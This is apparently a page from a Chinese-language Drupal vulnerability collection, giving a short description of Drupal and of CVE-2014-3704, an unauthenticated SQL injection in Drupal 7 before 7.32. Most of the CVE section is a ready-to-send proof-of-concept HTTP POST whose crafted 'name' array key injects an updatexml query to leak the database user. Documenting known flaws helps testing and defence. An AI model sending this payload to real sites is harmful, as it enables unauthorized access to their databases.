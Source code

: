 # Drupal 漏洞集合

![Logo](images/drupal_1.png)

Drupal 是一个灵活的，基于 LAMP 技术栈的 CMS，它的模块化设计，允许通过安装和卸载模块的方式 添加和移除功能，同时，允许通过安装和卸载主题改变整个网站的视觉感观。Drupal 还可以运行在其他技术栈上：

- 除了 Linux，操作系统还可以是 Windows 或 Mac OS。
- Web 服务器可以用 Nginx 或 IIS，替代 Apache。
- 数据库可以用 PostgreSQL 或 SQLite，替代 MySQL，或者其他兼容 MySQL 的数据库 比如 MariaDB 或 Percona。

其他的操作系统，Web 服务器，数据库也可以让它工作。但是，编写它的 PHP 脚本语言，这一点是不变的。

## CVE-2014-3704

Drupal 7.x - 7.32 之前的数据库抽象 API 中的 `expandArguments` 函数没有正确构造 `prepared statements`，这使得远程攻击者可以通过包含特制键的数组进行 SQL 注入攻击。

- [x] Drupal 7.x - 7.32

### PoC

SQL 注入不需要身份验证，可以通过发送如下请求执行恶意 SQL 语句。

```http hl_lines="1 11"
POST /?q=node&destination=node HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a
```
